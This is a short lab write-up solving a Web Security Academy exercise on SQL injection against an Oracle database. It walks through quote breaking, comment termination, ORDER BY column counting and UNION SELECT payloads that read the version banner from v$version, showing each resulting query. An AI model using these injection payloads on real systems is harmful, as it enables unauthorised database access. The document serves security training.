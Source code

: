 # Lab: SQL injection attack, querying the database type and version on Oracle

- sqli: product category fillter
- end goal: display the database version string

### Analysis
- url: `https://0a3f004e032b939c80bb081500cb0036.web-security-academy.net/`

- front-end: `/filter?category=Gifts`
- back-end:
```sql
select * from product where category = 'Gifts' and released = 1
``` 

- check sqli vulnerability
- front-end: `/filter?category=Gifts'`
- back-end:
```sql
select * from product where category = 'Gifts'' and released = 1
'-- 500 Internal Server Error
``` 

- front-end: `/filter?category=Gifts'--`
- back-end:
```sql
select * from product where category = 'Gifts'--' and released = 1
-- 200 OK
```

- determine how many columns are contain in this website
- front-end: `/filter?category=Gifts' order by 2--`
- back-end:
```sql
select * from product where category = 'Gifts' order by 2--' and released = 1
-- found 2 columns
```

- determine type of data are contain in the columns
- front-end: `/filter?category=Gifts' union select 'a', 'a' from dual--`
- back-end:
```sql
select * from product where category = 'Gifts' union select 'a', 'a' from dual--' and released = 1
-- Oracle: 200 OK: both columns are text 
```

- display the database version 
- front-end: `/filter?category=Gifts' union select banner, null from v$version--`
- back-end:
```sql
select * from product where category = 'Gifts' union select banner, null from v$version--' and released = 1
-- 200 OK 
```
- Congratulations, you solved the lab!

---